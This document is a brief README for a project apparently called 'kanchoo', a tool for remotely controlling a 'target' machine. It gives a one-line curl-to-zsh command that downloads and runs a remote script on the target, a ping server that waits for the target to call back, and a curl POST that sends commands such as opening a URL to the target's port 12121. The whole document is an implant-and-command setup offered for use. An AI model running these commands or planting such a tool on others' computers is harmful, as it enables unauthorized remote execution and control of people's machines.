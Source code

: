 # kanchoo
カンチョー

## how to

#### 1. install in the target (wip)
```sh
/bin/zsh -e "$(curl -fsSL https://raw.githubusercontent.com/davidegaspar/kanchoo/wip/target.js)"
```

#### 2. start ping server and wait for target to ping back
```sh
./ping.js
```

#### 3. once you have the target details run a story or a single action
```sh
./story <storyName>.json <ip>
```
```sh
curl -H "Content-Type: application/json" -X POST -d '{"openUrl":"example.com"}' http://${ip}:12121
```

## dependencies
- nodejs
- zsh
